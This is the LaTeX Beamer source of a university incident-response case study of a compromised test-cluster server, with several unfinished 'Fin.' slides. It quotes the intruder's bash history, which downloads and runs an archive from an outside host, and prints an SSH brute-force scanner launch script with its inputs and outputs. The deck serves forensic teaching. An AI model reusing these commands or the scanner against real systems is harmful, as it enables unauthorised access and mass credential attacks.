\documentclass[xcolor=x11names,compress]{beamer}

% -----------------------------------------------------------------------------------------
% The bit you should be interested in
%
% \usetheme[infolabcolours,num,forcecurve]{SmartSerif}
% \usetheme[bgcurve]{SmartSerif}
% \usetheme[num]{SmartSerif}
% \usetheme[bannerline=red]{SmartSerif}
% \usetheme[bannerbg=black]{SmartSerif}
% \usetheme[]{SmartSerif}
% 

\usetheme[nocurve]{SmartSerif}


% -----------------------------------------------------------------------------------------
% Other things for the sample
\usepackage{hyperref}

\usepackage{listings}

\usepackage{graphicx}
\graphicspath{ {./images/} }

% -----------------------------------------------------------------------------------------

\title{Server Compromise Case Study}
\author{Stephen Wattam \& Rob Larson}
\institute[2013]{Lancaster University}
\date{\tiny \today}

\begin{document}

\maketitle

\section*{Outline}
\frame{\tableofcontents}

% -----------------------------------------------------------------------------------------
% -----------------------------------------------------------------------
% Background
% -----------------------------------------------------------------------



\section{Background}

\subsection{Introduction}
\frame{\frametitle{About}
\begin{itemize}
	% \item Overview of compromised test server
	% \item University network
    \item Compromised machine was a controller for a test cluster
    \item Set up on 17th November 2014
    \item Notified of breach on 24th November

        % 'what do we do now'
\end{itemize}
}

\subsection{Technical}
\frame{\frametitle{The Network}
\begin{itemize}
    
    \item Small network with manager and slave nodes
    \item Test hadoop setup, services on LAN side

        % Topology picture
    \begin{figure}[p]
        
\includegraphics[width=0.5\textwidth]{overview.png}
    \end{figure}


\end{itemize}
}




\frame{\frametitle{Machine \& OS}
\begin{itemize}
    
    \item Ubuntu MAAS
        % mention this is why people have ubuntu VMs
    \item Two NICs, one on university network
        % forward and backward facing (LAN, WAN)
    \item Machine is old commodity machine
        %

\end{itemize}
}

\subsection{Situation}
\frame{\frametitle{Situational Overview}
\begin{itemize}
	\item System install: 17th November
	\item Notification of breach: 24th November
    \item Disks imaged, mounted read-only
\end{itemize}
}


% -----------------------------------------------------------------------
% Get people to look at logs 
% -----------------------------------------------------------------------

\section{Investigation}
\frame{\frametitle{Investigation}
\begin{itemize}
    \item Stuff left over in \texttt{~daniel/}
        \begin{itemize}
            \item \texttt{~/.bssh}
            \item \texttt{~/.vogz}
        \end{itemize}
    \item Logs (bash, auth, squid)
    \item Resources pointed to by the above
\end{itemize}
}

\subsection{Logs}
\frame{\frametitle{Logs}

File: \texttt{logs.tgz}
\begin{itemize}
    \item \texttt{\_bash\_history} contains the command log
    \item \texttt{auth.log} contains the system auth log
    \item \texttt{edited\_files\_in...} contains all files edited since November 23rd
    \item \texttt{var\_log\_squid3} contains \texttt{/var/log/squid3}.
\end{itemize}
}

\subsection{Findings}
\frame{\frametitle{BSSH}
% Any files edited after 23rd

File: \texttt{\_bssh.tgz}
\begin{itemize}

    \item Left over in \texttt{~daniel}
    \item A quick google shows the docs, to be found in \texttt{hackforums/}

\end{itemize}
}

% Explain for those not familiar with bash
\begin{frame}[fragile=singleslide]\frametitle{Bash Log}
\begin{verbatim}
w
ls
pass wd
ifconfig
cat /proc/cpuinfo
wget http://descargarcs.net63.net/fv/ghh.tgz
tar -zxf ghh.tgz
rm -rf ghh.tgz
chmod +x *
cd .vogz
chmod +x *
screen
\end{verbatim}
\end{frame}


\frame{\frametitle{Other Files}
    \visible<1->{
        So, what is at \\
        \url{http://descargarcs.net63.net/fv/ghh.tgz} ?
    }

    \visible<2>{
        File: \texttt{\_vogz.tgz}
        % \begin{itemize}
        %     \item 
        % \end{itemize}
    }
}


% -----------------------------------------------------------------------
% SSH scan analysis
% -----------------------------------------------------------------------
\section{Software 1}
\subsection{SSH Scanner}
\frame{\frametitle{SSH Scanner}
\begin{center}
    \item Fin.
\end{center}
}


\frame[fragile=singleslide]{\frametitle{Log Findings}
\small
\begin{lstlisting}[language=bash]
#!/bin/bash
############### Config ###############
pscanThreads=1000
ssh2Threads=250
port=22
pscanTimeout=1
ssh2Timeout=3
############## Running ##############
rm -rf scan.log session.txt
./pscan $1 $port $pscanThreads $pscanTimeout unlimited
sleep 2
./ssh2 $ssh2Threads $port $ssh2Timeout unlimited 
\end{lstlisting}
}



\frame{\frametitle{SSH Scanner}
\begin{center}
    \item Fin.
\end{center}
}

\frame{\frametitle{SSH Scanner findings}

Tool takes as input:
\begin{itemize}
	\item pass.txt: list of common username / password combinations.	
	\end{itemize}
	
Attacker may configure:
\begin{itemize}
	\item PscanThreads: speed of IP scanning
	\item ssh2Threads: speed of brute-forcing
	\end{itemize}

Tool generates: 
\begin{itemize}
	\item vuln.txt: where good roots are stored
	\item nobash.txt where no-logins are stored
\end{itemize}


}


% -----------------------------------------------------------------------
% RDP scan analysis
% -----------------------------------------------------------------------
\section{Software 2}
\subsection{RDP Scanner}
\frame{\frametitle{RDP Scanner}
    \begin{center}
        \item Fin.
    \end{center}
}


% -----------------------------------------------------------------------
% Our findings from report/summary 
% -----------------------------------------------------------------------
\section{Our Findings}
\frame{\frametitle{Summary}
\begin{center}
    \item Fin.
\end{center}
}

\frame{\frametitle{Resources / References}
    \begin{center}
        \item Fin.
    \end{center}
}

% -----------------------------------------------------------------------------------------
\end{document}
